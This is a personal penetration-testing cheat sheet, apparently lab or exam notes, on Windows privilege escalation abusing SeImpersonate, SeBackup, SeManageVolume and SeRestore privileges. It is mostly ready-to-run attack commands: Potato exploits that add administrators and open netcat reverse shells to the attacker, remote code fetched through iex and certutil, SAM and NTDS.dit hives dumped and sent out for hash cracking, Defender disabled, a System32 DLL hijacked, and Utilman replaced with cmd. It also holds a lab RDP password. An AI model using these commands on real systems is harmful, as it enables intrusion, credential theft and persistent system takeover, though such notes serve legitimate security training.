

let's connect with [xfreerdp](6-%20Zettelkasten/xfreerdp.md)
```powershell
xfreerdp /cert-ignore /u:steve /p:securityIsNotAnOption++++++ /v:192.168.238.220 /dynamic-resolution
```



#### **1- [[SeImpersonatePrivilege]]**

let's understand what Net framework is installed 
```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```


###### sigmaPotato
reference: https://github.com/tylerdotrar/SigmaPotato/releases

download it 
```powershell
# .NET framework any
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe

# .NET framework 3.5 only
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotatoCore.exe
```

start python server on 
```powershell
python3 -m http.server 80
```

upload it 
```powershell
upload SigmaPotato.exe
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/SigmaPotato.exe' -OutFile 'C:\Users\Public\SigmaPotato.exe'"
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/SigmaPotatoCore.exe' -OutFile 'C:\Users\Public\SigmaPotato.exe'"
```

start listener 
```powershell
rlwrap -cAr nc -lvnp 9001
```
exploit it 
```powershell	
# make sure to restart the cmd or evil-winrm to get it reflected
C:\Users\Public\SigmaPotato.exe "net user john Password123! /add"
C:\Users\Public\SigmaPotato.exe "net localgroup administrators john /add"
C:\Users\Public\SigmaPotato.exe "net localgroup administrators <% tp.frontmatter["domain-username"] %> /add"
C:\Users\Public\SigmaPotato.exe --revshell <% tp.frontmatter["LHOST"] %> 9001
C:\Users\Public\SigmaPotato.exe --revshell <% tp.frontmatter["MS01-RHOST-internal"] %> 4444 # MS02
```


###### DeadPotato
```powershell
# only one option
wget https://github.com/lypd0/DeadPotato/releases/download/v1.2/DeadPotato-NET4.exe
```
start python server on 
```powershell
python3 -m http.server 80
```
upload it 
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/DeadPotato-NET4.exe' -OutFile 'C:\Users\Public\deadpotato.exe'"
```

start listener 
```powershell
rlwrap -cAr nc -lvnp 9001
```
exploit it 


```powershell	
# make sure to restart the cmd or evil-winrm to get it reflected
C:\Users\Public\deadpotato.exe -cmd "net localgroup administrators <% tp.frontmatter["domain-username"] %> /add"
C:\Users\Public\deadpotato.exe -rev <% tp.frontmatter["LHOST"] %>:9001
C:\Users\Public\deadpotato.exe -exe paylod.exe
C:\Users\Public\deadpotato.exe -newadmin john:Password123!
C:\Users\Public\deadpotato.exe -shell
C:\Users\Public\deadpotato.exe -mimi sam
C:\Users\Public\deadpotato.exe -defender off
C:\Users\Public\deadpotato.exe -sharphound
```

######  GodPotato (Windows Server 2012 ~ 2019)

then download and install related version 
```powershell
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET35.exe
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe
```

start python server on 
```powershell
python3 -m http.server 80
```
upload it 
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/GodPotato-NET4.exe' -OutFile 'C:\Users\Public\GodPotato.exe'"
```

start listener 
```powershell
rlwrap -cAr nc -lvnp 9001
```

exploit it 
```powershell
C:\Users\Public\GodPotato.exe -cmd "cmd /c whoami"
C:\Users\Public\GodPotato.exe -cmd "cmd /c 'net localgroup administrators <% tp.frontmatter["domain-username"] %> /add'"
C:\Users\Public\GodPotato.exe -cmd "cmd /c reverse.exe"
C:\Users\Public\GodPotato.exe -cmd ".\nc.exe <% tp.frontmatter["LHOST"] %> 135  -e c:\windows\system32\cmd.exe"
C:\Users\Public\GodPotato.exe -cmd ".\nc.exe 192.168.45.208 135 -e powershell"
```


###### JuicyPotatoNG (widows 10+)
```powershell
wget https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip
unzip JuicyPotatoNG.zip
```

start python server on 
```powershell
python3 -m http.server 80
```
upload it 
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/JuicyPotatoNG.exe' -OutFile 'C:\Users\Public\JuicyPotatoNG.exe'"
```

start listener 
```powershell
rlwrap -cAr nc -lvnp 9001
```

exploit it 
```powershell
JuicyPotatoNG.exe -t * -p "reverse.exe" -a
```


###### PrintSpoofer (Windows 10, Server 2016–2019)
```powershell
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe
```

start python server on 
```powershell
python3 -m http.server 80
```
upload it 
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/PrintSpoofer64.exe' -OutFile 'C:\Users\Public\PrintSpoofer.exe'"
```

start listener 
```powershell
rlwrap -cAr nc -lvnp 9001
```

exploit it:
```powershell
C:\Users\Public\PrintSpoofer.exe -i -c cmd
C:\Users\Public\PrintSpoofer.exe -i -c shell.exe
```
######  Hot Potato (Windows server 2008)
```powershell
wget https://github.com/foxglovesec/Potato/blob/master/source/Potato/Potato/bin/Release/Potato.exe
```
start python server on 
```powershell
python3 -m http.server 80
```
upload it 
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/Potato.exe' -OutFile 'C:\Users\Public\Potato.exe'"
```

start listener 
```powershell
rlwrap -cAr nc -lvnp 9001
```

exploit it 
```powershell
Potato.exe -ip -cmd [cmd to run] -disable_exhaust true -disable_defender true
```


#### **2- [[SeBackupPrivilege]]** (backup files and directories)
easy command 
```powershell
cmd /c "reg save HKLM\SAM SAM"
cmd /c "reg save HKLM\SYSTEM SYSTEM"
```
if not worked, try the below ones. 
send it 
```powershell
c:\path\nc.exe -lvnp 6666 < SAM
c:\path\nc.exe -lvnp 6666 < SYSTEM
```
receive it 
```powershell
nc 192.168.198.222 6666 > SAM
nc 192.168.198.222 6666 > SYSTEM
```
crack it like : 
```powershell
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```
###### Method 1: Diskshadow & Robocopy

create `back_script.txt` on windows with the following content. 
```powershell
set verbose on  
set metadata C:\Windows\Temp\meta.cab  
set context clientaccessible  
set context persistent  
begin backup  
add volume C: alias cdrive  
create  
expose %cdrive% E:  
end backup
```
run the script on windows
```powershell
diskshadow /s back_script.txt
```
When the process is complete, switch to the **_E:_** drive and copy the _NTDS.dit_ file using **_Robocopy_** to the Temp file created in the **C:** drive.
```powershell
cd E:
robocopy /b E:\Windows\ntds . ntds.dit
```
Next, we get the system registry hive that contains the keys needed to decrypt the NTDS file with the **reg save** command.
```powershell
reg save hklm\system c:\temp\system.bak
```
download the files on our machines 
we need nc.exe first to be downloaded on windows side. 
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["MS01-RHOST-internal"] %>:1235/nc.exe' -OutFile 'C:\Users\Public\nc.exe'"
```
then on windows victim machine using **cmd** host the files
```powershell
.\nc.exe -lvnp 6666 < ntds.dit
```
download the files on linux 
```powershell
nc <% tp.frontmatter["MS01-RHOST-internal"] %> 6666 > ntds.dit
```

again 
on windows victim machine using **cmd** host the files
```powershell
.\nc.exe -lvnp 6666 < system
```
download the files on linux 
```powershell
nc <% tp.frontmatter["MS01-RHOST-internal"] %> 6666 > system
```


######  Method 2: Diskshadow & Dynamic Link Libraries (DLLs) → just alternative to robocopy
The second method uses _Diskshadow_ to create a shadow copy and _Dynamic Link Libraries_ (DLLs) to copy the system files as an alternative to _Robocopy_

kali side 
```powershell
wget https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true
wget https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true
```
windows side 
download SeBackupPrivilegeUtils.dl
```powershell
#another way 
iwr -uri http://<% tp.frontmatter["LHOST"] %>/SeBackupPrivilegeUtils.dll -Outfile SeBackupPrivilegeUtils.dll
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/SeBackupPrivilegeUtils.dll' -OutFile 'C:\Users\Public\SeBackupPrivilegeUtils.dll'"
iex(new-object net.webclient).downloadstring("http://<% tp.frontmatter["LHOST"] %>/SeBackupPrivilegeUtils.dll")
certutil -urlcache -split -f "http://<% tp.frontmatter["LHOST"] %>/SeBackupPrivilegeUtils.dll" SeBackupPrivilegeUtils.dll
```
download SeBackupPrivilegeCmdLets.dll
```powershell
#another way 
iwr -uri http://<% tp.frontmatter["LHOST"] %>/SeBackupPrivilegeUtils.dll -Outfile SeBackupPrivilegeCmdLets.dll
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/SeBackupPrivilegeCmdLets.dll' -OutFile 'C:\Users\Public\SeBackupPrivilegeCmdLets.dll'"
iex(new-object net.webclient).downloadstring("http://<% tp.frontmatter["LHOST"] %>/SeBackupPrivilegeCmdLets.dll")
certutil -urlcache -split -f "http://<% tp.frontmatter["LHOST"] %>/SeBackupPrivilegeCmdLets.dll" SeBackupPrivilegeCmdLets.dll
```
exploit 
```powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
```
Then, we use the copying function “**_Copy-FileSeBackupPrivilege”_** in the **_SeBackupPrivilegeUtils.dll_** to copy the NTDS.dit file**_,_** and save the system hive for the hash extraction later.
```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
reg save hklm\system c:\temp\system
```

the follow the steps in method1 to move the files to kali 

######  Method 3:  Wbadmin Utility

The Wbadmin utility is used to create and restore backups in Windows environment. To create a backup, use the following command:
```powershell
#replace dc01 with the hostname
wbadmin start backup -quiet -backuptarget:\\dc01\c$\temp -include:c:\windows\ntds
```

After running the tool, we verify the backup using the `**get versions**` command. As seen below, the backup was created in the temp directory \\dc01\C$\temp.
```powershell
wbadmin get versions
```

To restore the backup we created, we run the below command
```powershell
#change the date to match the above mentioned date
webadmin start recovery -quiet -version:07/26/2021-03:16 -itemtype:file -item:c:\windows\ntds\ntds.dit -recoverytarget:c:\temp -notrestoreacl
```

After that, we copy the system file for hash extraction later.
```powershell
reg save hklm\system c:\temp\system
```
then follow method1 to transfer files to kali 

###### Hash Extraction
**Secretsdump Module**
```powershell
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

**Pypykatz**
A Python tool for dumping lsass hashes is similar to Mimikatz; it is cross-platform and doesn’t require a Windows environment.
```powershell
pypykatz lsa minidump lsass.DMP
```


SeBackupPrivilege reference : https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960
all SesomethingPriv reference : https://github.com/gtworek/Priv2Admin?tab=readme-ov-file


#### **3- [[SeManageVolumePrivilege]]**
1- download it at kali side
```powershell
wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe
```
2- start python server
```powershell
python3 -m http.server 80
```
3- download it on victim windows machine 
```powershell
iwr -uri http://<% tp.frontmatter["LHOST"] %>/SeManageVolumeExploit.exe -Outfile SeManageVolumeExploit.exe
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/SeManageVolumeExploit.exe' -OutFile 'C:\Users\Public\SeManageVolumeExploit.exe'"
iex(new-object net.webclient).downloadstring("http://<% tp.frontmatter["LHOST"] %>/SeManageVolumeExploit.exe")
certutil -urlcache -split -f "http://<% tp.frontmatter["LHOST"] %>/SeManageVolumeExploit.exe" SeManageVolumeExploit.exe
```

4- run it 
```powershell
.\SeManageVolumeExploit.exe
```
==Now we can write to the C: drive.==
according to http://github.com/xct/SeManageVolumeAbuse , we can leverage our newfound super powers to hijack a DLL used by anything. We will use systeminfo’s tzres.dll.

5- create another reverse shell outputing the file as [[rzres.dll]]
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<% tp.frontmatter["LHOST"] %> LPORT=135 -f dll -o tzres.dll
```

6- start python server
```powershell
python3 -m http.server 80
```

7- download it on victim windows machine 
```powershell
iwr -uri http://<% tp.frontmatter["LHOST"] %>/tzres.dll -Outfile C:\Windows\System32\wbem\tzres.dll
powershell -c "Invoke-WebRequest -Uri 'http://<% tp.frontmatter["LHOST"] %>/tzres.dll' -OutFile 'C:\Windows\System32\wbem\tzres.dll'"
iex(new-object net.webclient).downloadstring("http://<% tp.frontmatter["LHOST"] %>/tzres.dll")
certutil -urlcache -split -f "http://<% tp.frontmatter["LHOST"] %>/tzres.dll" C:\Windows\System32\wbem\tzres.dll
```

8- start a listener 
```powershell
rlwrap -cAr nc -lvnp 135
```

9- Finally (with your listener set up) run the [[systeminfo command]].
```powershell
systeminfo
```
we should get a rreverse shell as `nt authority\network service`


#### **4- **[[SeRestorePrivilege]]** (Restore files and directories)

**_We find Utilman.exe by navigating to “C:\Windows\system32”:_**
```powershell
cd C:\Windows\system32
```


We enter “ren Utilman.exe Utilman.old” and verify the filename modification:
```powershell
ren Utilman.exe Utilman.old
```


**_We type the following command to rename cmd.exe to Ultiman.exe_**
```powershell
ren cmd.exe Utilman.exe
```
**_On our Kali machine, we navigate to a another terminal and enter the following command to enter the login page of the remote desktop session._**
```powershell
rdesktop <% tp.frontmatter["RHOSTS"] %>
```

 **_After entering “windows + u” keys on the RDP session login page, we launch a CMD session as NT authority/system._**

Windows Log In

we are system now. 

try to do : 
5. dsa.msc

6. Reset Administrator's password
7.  impacket-psexec Administrator:'PasswordYouSet'@ip
if worked, update it.

# to do 

```java
SeAssignPrimaryToken 
SeLoadDriver
SeDebug
```